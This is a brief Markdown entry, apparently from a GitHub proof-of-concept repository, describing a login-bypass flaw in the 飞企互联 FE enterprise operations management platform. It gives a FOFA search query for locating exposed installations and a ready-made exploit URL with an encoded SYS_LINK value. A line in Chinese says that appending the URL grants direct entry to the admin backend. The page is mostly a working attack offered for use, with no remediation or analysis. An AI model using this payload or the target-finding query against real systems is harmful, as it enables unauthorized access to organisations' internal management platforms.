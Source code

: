 ## 飞企互联-FE企业运营管理平台登录绕过漏洞

## fofa
```
app="飞企互联-FE企业运营管理平台"
```

## poc
```
http://your-ip/2.ln?SYS_LINK=77507068764957484a5067777862714f457a66574871642f4330574c76717868394a35496d37416c497951724f33446f51486375685a5a2b31684938472b7056

```
直接拼接url即可进入后台

![fd7e14ccbaa56a175bd9ab981fcced4b](https://github.com/wy876/POC/assets/139549762/96ef5111-e48d-4dac-935c-dcb2003f2cd6)
